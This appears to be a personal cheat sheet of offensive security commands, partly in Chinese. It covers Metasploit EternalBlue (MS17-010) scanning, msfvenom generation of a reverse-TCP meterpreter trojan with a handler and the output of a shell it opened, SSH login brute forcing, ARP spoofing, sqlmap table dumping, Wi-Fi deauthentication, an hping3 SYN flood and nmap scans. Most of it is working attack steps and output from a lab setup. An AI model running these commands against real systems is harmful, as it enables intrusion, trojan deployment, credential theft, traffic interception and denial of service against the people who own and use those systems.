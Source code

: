 # msfconsole

```bash
snap install metasploit-framework
# Download the package
```

```bash
msfconsole
# Enter the console
```

## ms17_010

search ms17_010 

\#永恒之蓝漏洞模板 

- use auxiliary/scanner/smb/smb_ms17_010 

show options 

- set rhosts 192.168.140.129 

\#扫描目标IP是否存在此漏洞 

- msfvenom -p windows/meterpreter_reverse_tcp LHOST=172.26.197.13 LPORT=12345 -f exe > win2012.exe 

\#生成一个win2012.exe的木马文件，反向连接到kali主机 

- use exploit/multi/handler 

[*] Using configured payload generic/shell_reverse_tcp 

\#开启端口监听 

- set payload windows/meterpreter_reverse_tcp 

\#设置payload反弹 

show options 

\#设置参数 

- set LHOST 172.26.197.13 

LHOST => 172.26.197.13 

- set LPORT 12345 

LPORT => 12345 

\#设置反向连接IP（kali）和端口 

- run 

[*] Started reverse TCP handler on 172.26.197.13:12345 

[*] Meterpreter session 1 opened (172.26.197.13:12345 -> 172.26.192.1:2177) at 2023-12-11 23:23:41 +0800 

\#开始监听 

- shell 

Process 2016 created. 

Channel 2 created. 

Microsoft Windows [�汾 6.1.7601] 

��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ���� 

\#获取权限 

- use exploit/windows/smb/ms17_010_eternalblue 

show options 



## ssh_login

```bash
search ssh_login

use 

set RHOSTS target
set USER_FILE /path/to/user_dict
set PASS_FILE /path/to/pass_dict
# The file type should be txt
```

```bash
vim password.txt
```





# arpspoof

[ARP欺骗工具arpspoof的用法](https://blog.csdn.net/who_im_i/article/details/120234324)

```bash
apt install -y dsniff ssldump
```

设置是否为目标和主机转发流量，0为不转发
```bash
echo 0 > /proc/sys/net/ipv4/ip_forward
```

arp欺骗，需要指定相关网卡。
```bash
arpspoof -i <eth0> -t <target> <host>
# -i 指定特定的网卡
# -t 目标IP
# host 网关IP
```



# sqlmap

扫描当前数据库

```bash
sqlmap -u "url" --cookie="cookie" --current-db
```

```bash
sqlmap -u "url" --cookie="cookie" -D database --tables
sqlmap -u "url" --cookie="cookie" -D database -T table --columns
sqlmap -u "url" --cookie="cookie" -D database -T table -C col1,col2 --dump
```



# aircrack-ng

查看无线网卡信息

```bash
airmon-ng
```
开启网卡监听模式

```bash
airmon-ng start wlan0
```
使用airodump-ng 扫描信号

```bash
airodump-ng wlan0mon
```
|符号|意义|
|------|------|
| BSSID | AP端的MAC地址 |
| PWR   | 信号强度，数字越小越好 |
| \#Data | 对应的路由器的在线数据吞吐量，数字越大，数据上传量越大 |
| CH | 对应路由器的所在频道 |
| ESSID | 对应路由器的名称 |

使用airodump-ng 监听指定目标频道

```bash
airodump-ng -c <ch> -w aircrack/ --bssid <bssid> wlan0
```

使用aireplay-ng 进行解除认证攻击模式

```bash
aireplay-ng -0 0 -a <AP address> -c <client address> wlan0
# 指定AP和客户端的地址，将其进行破解
```

# hping3

```bash
hping3 -S -V --flood target
# hitting the port 80 server of server
```

# nmap

```bash
nmap -O -Pn target
# scan the OS of target

nmap -A target
# default script scanning from nmap and trace route

nmap -Ss 192.168.0.1-255
# scan a range of address
```
